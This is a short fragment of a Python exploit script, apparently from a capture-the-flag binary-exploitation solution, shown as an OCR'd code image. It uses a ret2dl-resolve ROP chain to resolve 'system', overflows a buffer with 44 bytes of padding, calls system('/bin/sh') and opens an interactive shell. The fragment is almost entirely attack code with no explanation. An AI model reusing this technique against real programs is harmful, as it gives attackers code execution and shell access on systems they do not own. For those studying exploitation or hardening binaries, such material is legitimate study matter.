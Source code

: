 ```python
buf2 += rop.dl_resolve_data(addr_bss+20, 'system')
buf2 += rop.fill(100, buf2)

print buf2
print hex(addr_bss)
p.send(buf2)

#debug()
#step2 : use dl_resolve_call get system & system('/bin/sh')
buf3 = 'A'*44 + rop.dl_resolve_call(addr_bss+20, addr_bss)
p.send(buf3)
#print hex(u32(buf3[48:52])),len(buf3)


debug()
p.interactive()
```
